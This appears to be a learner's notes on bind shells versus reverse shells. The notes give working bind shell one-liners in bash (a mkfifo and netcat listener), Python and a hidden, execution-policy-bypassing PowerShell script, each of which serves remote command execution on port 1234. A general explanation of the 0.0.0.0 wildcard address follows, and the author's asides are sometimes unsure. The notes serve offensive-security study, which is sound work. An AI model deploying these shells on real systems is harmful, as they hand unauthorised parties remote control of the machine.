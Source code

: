 - if host is rebooted, access will be lost

**difference with reverse shell**

💡 From what I have noticed, the main diff is see how on a reverse shell you have to find your IP address and specify it when setting up a listener with nc on port 1234, you conect back to it and specify your own IP address


**STEPS TO IMPLEMENT:**

**1 - start a bind shell**

Code: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

```

Code: python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

```

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

```


💡 ***NOTE: typically, IP address is set to 0.0.0.0 so that we can connect to it from anywhere*** ***Note that form the commands above, only the python script has the IP 0.0.0.0 specified. So I am assuming the others dont need it?***

❗️ **IP 0.0.0.0** has a special meaning in networking:

0.0.0.0 is referred to as an "unspecified" or "wildcard" address. It does not specifically represent a single device on a network but is used in different contexts:

1. **Listening on All Network Interfaces**: When a network service or application binds to the IP address "0.0.0.0," it is indicating that it is willing to listen for incoming connections on all available network interfaces or IP addresses on the system. In this case, the service is not tied to any specific IP address.
2. **Routing and Default Route**: In some networking contexts, "0.0.0.0" can represent the default route, which is used by routers to indicate that they should route packets to the best matching destination based on other routing table entries.
3. **Configuration**: In network configuration, "0.0.0.0" might be used as a placeholder or wildcard value, indicating that the configuration applies to all available IP addresses or interfaces.
4. **Subnetting**: In the context of subnetting, using "0.0.0.0" for the subnet mask indicates the entire IP address space, not a specific subnet.

